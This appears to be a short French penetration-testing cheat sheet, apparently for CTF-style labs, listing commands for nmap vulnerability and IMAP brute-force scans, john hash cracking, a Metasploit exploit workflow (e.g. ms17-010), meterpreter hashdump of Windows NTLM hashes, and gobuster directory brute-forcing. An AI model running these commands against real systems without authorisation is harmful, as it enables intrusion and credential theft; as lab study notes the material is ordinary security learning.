 ## Wordlists

Sur Kali : 
`/usr/share/wordlists/`  
`/usr/share/wordlists/dirbuster/`


## nmap

`nmap -sC -sV -O 10.10.0.0-255 –script=vuln`

`nmap -p 143 --script=imap-brute --script-args userbdb=userfilename, passdb=dict.txt ip`

## john

``john --wordlist=wordlist_file.txt file_to_crack``

```
#file_to_crack

user:hash

```

## Metasploit

```
msfconsole
search {vuln_name} # ex ms17-010

use {n}
set lhost {ip}
set rhost {ip_cible}
options # check of others parameters

run
```

une fois sur l'host meterpreter est lancé, on peut lancer un shell depuis celui ci.

``meterpreter> hashdump`` # récupère les hash de la machine

Sur une machine windows
Nom_Utilisateur:RID:Hash_LM:Hash_NTLM

lors d'un hashdump, on se concentre sur la dernière partie (le hash NTLM) car le hash LM qui le précède est une antiquité inutile et non sécurisée, souvent même pas présente sur les systèmes récents. C'est le hash NTLM qui représente la clé d'accès au compte.


``meterpreter> search -f flag*``

# gobuster

`gobuster dir -w path/to/wordlist -u url`

# burp

`burpsuite`